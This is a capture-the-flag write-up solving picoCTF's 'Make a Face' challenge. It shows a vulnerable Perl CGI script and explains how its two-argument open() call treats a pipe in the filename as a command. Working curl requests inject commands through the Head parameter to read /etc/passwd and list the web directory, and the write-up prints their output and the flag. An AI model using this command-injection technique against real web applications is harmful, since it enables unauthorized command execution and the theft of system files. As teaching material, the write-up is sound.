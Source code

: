 ### Solved by Swappage and barrebas

Make a Face is a 100 point challenge. 

We need to exploit a perl script running on a Webpage. This script takes user input and generates an "avatar". We immediately figured Shellshock but this turned out to be wrong. The script is included in the webpage source:

```perl
#!/usr/bin/perl

use CGI;

$q = new CGI;
if (defined($q->param('Head'))) {
  print $q->header(-type=>'image/bmp');
  open(HEAD,"head".$q->param('Head'));
  open(HAIR,"hair".$q->param('Hair'));
  open(NOSE,"nose".$q->param('Nose'));
  open(MOUTH,"mouth".$q->param('Mouth'));
  open(EYES,"eyes".$q->param('Eyes'));

  while (read(HEAD,$headb,1)) {
    read(HAIR,$hairb,1);
    read(NOSE,$noseb,1);
    read(MOUTH,$mouthb,1);
    read(EYES,$eyesb,1);
    print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
  }
}
else {
  print $q->header;
	...generate page...
```

We can't really inject anything into the parameter fields, as the value is concatenated with "head", "hair", etc. No calls to `system` or `eval` are made, no backticks were used. However, perl being perl, has another [trick up it's sleeve](http://www.cgisecurity.com/lib/sips.html):

`
If the filename begins with "|", the filename is interpreted as a command to which output is to be piped, and if the filename ends with a "|", the filename is interpreted as a command which pipes output to us.
`

That's handy! Let's try it:

```bash
bas@tritonal:~$ curl "http://makeaface.picoctf.com/index.cgi?Head=%20/etc/passwd|&Hair=1.bmp&Nose=2.bmp&Mouth=2.bmp&Eyes=3.bmp"
BM....binnologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
```

It returns a few lines of /etc/passwd, albeit mangled a bit. This works, because the "head" parameter is used in the open statement like this:

```perl
open(HEAD,"head /etc/passwd|"); 
```

This makes perl believe that it is a command from which we want to see output! From here, we enumerated the webdirectory and Swappage came up with the brilliant solution:

```bash
bas@tritonal:~$ curl "http://makeaface.picoctf.com/index.cgi?Head=%20|cat%20/etc/passwd%26%26ls%20-la|&Hair=1.bmp&Nose=2.bmp&Mouth=2.bmp&Eyes=3.bmp"
BM...hex bytes...binnologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
total 228
drwxr-xr-x 2 root root 4096 Oct 27 03:57 .
drwxr-xr-x 3 root root 4096 Oct 27 03:47 ..
-rw-r--r-- 1 root root   34 Oct 27 03:48 SECRET_KEY_2b609783951a8665d8c67d721b52b0f8
-rw-r--r-- 1 root root  452 Oct 27 03:48 css.css
-rw-r--r-- 1 root root 8338 Oct 27 03:48 eyes1.bmp
-rw-r--r-- 1 root root 8338 Oct 27 03:48 eyes2.bmp
-rw-r--r-- 1 root root 8338 Oct 27 03:48 eyes3.bmp
-rw-r--r-- 1 root root 8338 Oct 27 03:48 eyes4.bmp
-rw-r--r-- 1 root root 8338 Oct 27 03:48 hair0.bmp
```
Because that file, `SECRET_KEY_2b609783951a8665d8c67d721b52b0f8` is world-readable and in the webdirectory, we could just browse to it and grab the flag: `why_did_we_stop_using_perl_again?`
